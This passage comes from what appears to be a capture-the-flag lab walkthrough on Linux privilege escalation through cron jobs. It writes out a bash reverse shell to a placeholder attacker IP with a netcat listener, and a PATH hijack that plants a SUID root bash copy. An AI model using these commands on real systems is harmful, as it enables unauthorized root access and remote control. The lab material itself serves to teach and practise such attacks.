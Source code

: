 Note that the file is world-writable:
```
ls -l /usr/local/bin/overwrite.sh
```

overwrite the file with this 
```
#!/bin/bash
bash -i >& /dev/tcp/YOUR_IP/4444 0>&1
```

start your listner 
```
nc -nvlp 4444
```
you'll get the shell in a minute and you're done 😸

# Task 9 : Cron Jobs - PATH Environment Variable

View the contents of the system-wide crontab:
```
cat /etc/crontab
```
`Note that the PATH variable starts with /home/user which is our user's home directory.`

Create a file called overwrite.sh in your home directory with the following contents:
```
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

Make sure that the file is executable:
```
chmod +x /home/user/overwrite.sh
```
Wait for the cron job to run (should not take longer than a minute). Run the /tmp/rootbash command with -p to gain a shell running with root privileges:
```
/tmp/rootbash -p
```
now remove the temp file
```
rm /tmp/rootbash
exit
```

# Task 10 : Cron Jobs - Wildcards

View the contents of the other cron job script:
```
cat /usr/local/bin/compress.sh
```
Note that the tar command is being run with a wildcard (*) in your home directory.
